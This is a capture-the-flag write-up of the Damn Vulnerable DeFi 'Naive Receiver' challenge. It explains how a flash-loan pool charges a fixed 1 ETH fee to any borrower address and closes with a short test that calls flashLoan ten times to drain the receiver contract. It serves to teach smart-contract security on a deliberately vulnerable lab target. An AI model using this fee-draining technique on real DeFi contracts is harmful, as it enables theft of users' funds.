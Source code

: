 ```yaml
---
layout: post
title:  Damn Vulnerable DeFi - Naive Receiver
categories: [DeFi, Solidity, DVDF]
excerpt: Writeup for Naive Receiver.
---
```

# Naive Receiver

First off, [the pwnable is here](https://www.damnvulnerabledefi.xyz/challenges/1.html). I'll be talking from the perspective of someone with some exploit dev experience (say, completion of [pwncollege](https://pwn.college/)), but with basically no Solidity nor DeFi experience.

[Solidity By Example](https://docs.soliditylang.org/en/v0.8.0/solidity-by-example.html) is pretty good for giving a basic introduction to the language and will be assumed.

## What Do We Have To accomplish?

We have to somehow make the following pass:
```js
after(async function () {
    /** SUCCESS CONDITIONS */

    // All ETH has been drained from the receiver
    expect(
        await ethers.provider.getBalance(this.receiver.address)
    ).to.be.equal('0');
    expect(
        await ethers.provider.getBalance(this.pool.address)
    ).to.be.equal(ETHER_IN_POOL.add(ETHER_IN_RECEIVER));
});
```

In particular, then, we must somehow find a way to move the funds from the
receiver into the pool (which imo is a dead giveaway but I digress).

## Defining The Attack Surface

The culprit function must exist, then, somewhere within `NaiveReceiverLenderPool`.
Thankfully, there's only one function within that contract; `flashLoan`!
Speaking within the context of that function:
+ `borrower` has no restrictions on what it is other than its datatype, `address`, and the fact that it's a contract
+ We give the ETH and control flow to `borrower`, which does stuff
+ We're guaranteed by the following:
```solidity
require(
    address(this).balance >= balanceBefore + FIXED_FEE,
    "Flash loan hasn't been paid back"
);
```
that we get those funds back, plus the `FIXED_FEE` which is 1 ETH.

That is, we essentially take 1 ETH from borrower and give it to the pool every
time we execute a flash loan, and borrower's only restriction is that it must
be a contract.

This is it!

## Obtaining The Exploit

We can just call `this.pool.flashLoan` 10 times, with a (basically) arbitrary
borrow amount, with our `this.receiver` as the `borrower`. 
This results in 10 ETH in total being transferred from `this.receiver` to `this.pool`, as required.

```js
it('Exploit', async function () {
  for (let i = 0; i < 10; ++i)
      this.pool.flashLoan(this.receiver.address, 1);
});
```
